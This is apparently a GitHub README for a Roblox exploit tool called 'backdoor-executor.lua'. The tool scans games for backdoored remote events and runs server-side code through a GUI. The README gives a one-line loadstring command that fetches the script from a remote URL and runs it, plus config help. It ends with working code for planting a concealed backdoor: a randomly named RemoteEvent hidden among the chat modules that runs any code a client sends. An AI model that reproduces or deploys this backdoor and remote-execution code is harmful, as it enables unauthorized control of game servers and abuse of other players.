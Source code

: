 # backdoor-executor.lua
(pls help me get a new name for this script)
might be better than [backdoor.exe](https://github.com/iK4oS/backdoor.exe) in terms of scanning.

## Info
This script is for [Roblox](https://roblox.com) scanning backdoors and executing serversided scripts them within a gui.
### Script
Just copy the script below and execute it through your executor.
```lua
loadstring(game:HttpGetAsync("https://raw.githubusercontent.com/jLn0n/created-scripts-public/main/backdoor-executor/backdoor-executor.lua"))()
```
### Requirements
- A non skiddy brain that needs help for dumb reason
- Decent executor that supports filesystem functions (for config)
### Authors
**jLn0n**
- Discord: jLn0n#1464(474555624219344906)
- Github: [@jLn0n](https://github.com/jLn0n)
- Guilded: [jLn0n](https://www.guilded.gg/profile/1Ar9EYwm)
### Config Help
- My config has reset back to original
> The config will reset to the original config if the config version(configVer in [bexe-config.lua](https://github.com/jLn0n/created-scripts-public/blob/main/backdoor-executor/bexe-config.lua)) is lower than the original config so you should always backup your config to prevent config resets
- Adding cache example
```lua
[placeid] = {
	["Path"] = "remote.path.here", -- this is the path of the remote, don't do remote.path["here"] or it will not work
	["Args"] = {"arg1here", "source"}, -- source shouldn't be deleted because its a arg for scripts that will be executed
	["Func"] = function(source) -- use this if a game has a custom encryption for source
		return source
	end
}
```
> if the cache didn't work backdoor-executor.lua will warn u that the cache is outdated
- Using autoexecute
> add a script inside the autoExecute table, you can put many code as long as you want inside the table, example:
```lua
-- it should be a array and don't add a nil or it will not work
{
	[[print("jLn0n is epic!")]],
	[[warn("backdoor-executor.lua needs a new name!")]]
},
```

## Adding a backdoor in your game
Get access to a game in Roblox Studio, create a script and paste the few lines of code below in the script.
Make sure to enable `Loadstring` in `ServerScriptService`. (credits to [backdoor.exe](https://github.com/iK4oS/backdoor.exe) for borrowing this thingy.)
```lua
local Remote = Instance.new("RemoteEvent")
Remote.Name = tostring(math.random(1e10,1e10))
Remote.Parent = game:GetService("Chat"):WaitForChild("ClientChatModules").MessageCreatorModules
Remote.OnServerEvent:Connect(function(player, execute)
	loadstring(execute)()
end)
```
